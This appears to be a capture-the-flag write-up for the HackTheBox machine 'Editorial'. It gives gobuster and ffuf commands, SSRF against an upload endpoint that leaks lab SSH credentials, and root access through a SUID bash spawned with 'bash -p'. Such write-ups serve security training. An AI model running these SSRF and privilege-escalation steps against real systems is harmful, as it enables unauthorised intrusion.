




# User flag

To begin, we ran an **nmap** scan on the target machine's IP to identify the open ports.


We observed that port 80 was open, so we checked the website.  

As usual, we performed directory fuzzing and found a potential attack vector in the **upload** directory.
```bash
gobuster dir -u http://editorial.htb  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200
```


After trying to upload various types of files with malicious payloads without success, I noticed the input field next to it, which allows us to insert a URL. The first thing that came to mind was to attempt an **SSRF** (Server-Side Request Forgery) by searching for common configuration files.

When that didn’t work, I decided to try fuzzing for open ports. I captured the request using **Burpsuite**, created a file with all the ports, and used **ffuf** to check if any accessible ports could be found.If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.
```bash
ffuf -u http://editorial.htb/upload-cover -X POST -request request.txr -w ports.txt -fs 61
```


If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.


Visiting that endpoint in the browser, a file is downloaded with the following content:
```bash
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```
After visiting several endpoints and performing the SSRF (Server-Side Request Forgery) in the same manner, we observed that when making a request to the endpoint `http://localhost:5000/api/latest/metadata/messages/authors`, we found the following message:
```bash
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
If we try to access via SSH using the credentials from the message, we succeed.



With this, we can obtain the user flag.


# Root flag
To start the privilege escalation, I tried running `sudo -l`, but our user is not in the `sudoers` group. Then, I listed the `/home` directory and found the user `prod`.

To facilitate the privilege escalation process, we used `linpeas`. When executing it, we found the following:



The file `/usr/bin/bash` has the SUID bit set, which means that any user executing the file will do so with the permissions of the file owner, in this case `root`.

Therefore, if we run the command `/usr/bin/bash -p` we can spawn a new root shell.


